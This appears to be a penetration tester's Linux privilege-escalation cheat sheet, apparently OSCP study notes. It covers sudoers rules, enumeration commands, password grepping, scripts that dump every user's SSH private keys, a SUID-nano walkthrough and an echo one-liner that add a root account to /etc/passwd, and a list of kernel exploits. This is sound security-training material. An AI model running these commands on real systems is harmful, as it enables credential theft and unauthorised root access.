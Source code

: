 # Linux

### Sudo

```text
cat /etc/sudoers
sudo -l
```

Becoming a super hero is a fairly straight forward process:

```
root ALL=(ALL) ALL
```

{% hint style="info" %}
The root user can execute from ALL terminals, acting as ALL \(any\) users, and run ALL \(any\) command.
{% endhint %}

```text
john ALL= /sbin/poweroff
```

{% hint style="info" %}
The user john can from any terminal, run the command power off using john's user password.
{% endhint %}

```text
john ALL = (root) NOPASSWD: /usr/bin/scp
```

{% hint style="info" %}
The user john can from any terminal, run the command scp as root user without password.
{% endhint %}

Below a selection of [gotmi1k's privesc blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) which I use a lot.

### Distribution type & kernel version

```text
cat /etc/*release*
uname -a
rpm -q kernel
dmesg | grep -i linux
```

### Default writeable directory / folder

```text
/tmp
/dev/shm
```

### Search for passwords

Search for password within config.php

```text
grep -R 'password' config.php
```

Search at whole system

```text
find / -type f -exec grep -H 'password' {} \; 2>/dev/null
grep -R -i "password" 2> >(grep -v 'Permission denied' >&2)
```

Moaaar grepping

```text
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

### Find possible other writeable directory / folder

```text
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```

### Service\(s\) running as root user

```text
ps aux | grep root
ps -ef | grep root
```

### Installed applications

```text
ls -lah /usr/bin/
ls -lah /sbin/
dpkg -l
rpm -qa
ls -lah /var/cache/apt/archivesO
ls -lah /var/cache/yum/
```

### Scheduled jobs

```text
crontab -l
ls -la /etc/cron*
ls -lah /var/spool/cron
ls -la /etc/ | grep cron
cat /etc/crontab
cat /etc/anacrontab
```

### Search for juicy shizzle

#### Find pattern in file:

```text
grep -rnw '/etc/passwd' -e 'root'
```

#### SSH

[https://www.ssh.com/ssh/](https://www.ssh.com/ssh/)

#### Host keys

**authorized\_keys**  
Contains the signature of the public key of any authorised client\(s\), in other words specifies the SSH keys that can be used for logging into the user account for which the file is configured. This file lets the server authenticate the user.

**id\_rsa**  
Contains the private key for the client. This RSA key can be used with SSH protocols 1 or 2.

**id\_rsa.pub**  
Contains the public key for the client

**id\_dsa**  
Contains the private key for the client. This \(insecure\) DSA key only can be used with SSH protocol 2.

**id\_dsa.pub**  
Contains the public key for the client

**known\_hosts**  
Contains a list of host signatures for hosts the client has ever connected to.

#### Search for RSA private keys

```text
#!/bin/bash
for X in $(cut -f6 -d ':' /etc/passwd |sort |uniq); do
    if [ -s "${X}/.ssh/id_rsa" ]; then
        echo "### ${X}: "
        cat "${X}/.ssh/id_rsa"
        echo ""
    fi
done
```

#### Search for DSA private keys

```text
#!/bin/bash
for X in $(cut -f6 -d ':' /etc/passwd |sort |uniq); do
    if [ -s "${X}/.ssh/id_dsa" ]; then
        echo "### ${X}: "
        cat "${X}/.ssh/id_dsa"
        echo ""
    fi
done
```

#### Sticky bit, SGID, SUID, GUID

Sticky bit

```text
find / -perm -1000 -type d 2>/dev/null
```

SGID \(chmod 2000\)

```text
find / -perm -g=s -type f 2>/dev/null
```

SUID \(chmod 4000\)

```text
find / -perm -u=s -type f 2>/dev/null
find /* -user root -perm -4000 -print 2>/dev/null
```

SUID or GUID

```text
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null 
```

#### Example SUID exploitation

The following file has the SUID bit set:

```text
/usr/bin/nano
```

We can use this to execute nano and then add a new root user to /etc/passwd. The next step is to create a password "hodor" with salt "hodor":

```text
perl -e 'print crypt("hodor", "hodor"),"\n"'
```

Add to /etc/passwd using nano:

```text
hodor:how7QNOjM.95M:0:0:root:/root:/bin/bash
```

Switch to new user:

```text
su hodor
```

### Add user to /etc/passwd and root group

```text
echo hodor::0:0:root:/root:/bin/bash >> /etc/passwd
```

### Enumeration tools

Linenum.sh  
[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

LinPrivChecker.py   
[https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py](https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py)

### Linux local exploits

```text
kernel 2.4.x / 2.6.x (sock_sendpage 1)
kernel 2.4 / 2.6 (sock_sendpage 2)
kernel < 2.6.22 (ftruncate)
kernel < 2.6.34 (cap_sys_admin)
kernel 2.6.27 < 2.6.36 (compat)
kernel < 2.6.36-rc1 (can bcm)
kernel <= 2.6.36-rc8 (rds protocol)
kernel < 2.6.36.2 (half nelson)
kernel <= 2.6.37 (full nelson)
kernel 2.6 (udev)
kernel 3.13 (sgid)
kernel 3.13.0 < 3.19 (overlayfs 1)
kernel 3.14.5 (libfutex)
kernel 2.6.39 <= 3.2.2 (mempodipper)
*kernel 2.6.28 / 3.0 (alpha-omega)
kernel 2.6.22 < 3.9 (Dirty Cow)
kernel 3.7.6 (msr)
*kernel < 3.8.9 (perf_swevent_init)
kernel <= 4.3.3 (overlayfs 2)
kernel 4.3.3 (overlayfs 3)
kernel 4.4.0 (af_packet)
kernel 4.4.x (double-fdput)
kernel 4.4.0-21 (netfilter)
kernel 4.4.1 (refcount)
```

### **References**

* [https://oscp.securable.nl/](https://oscp.securable.nl/)

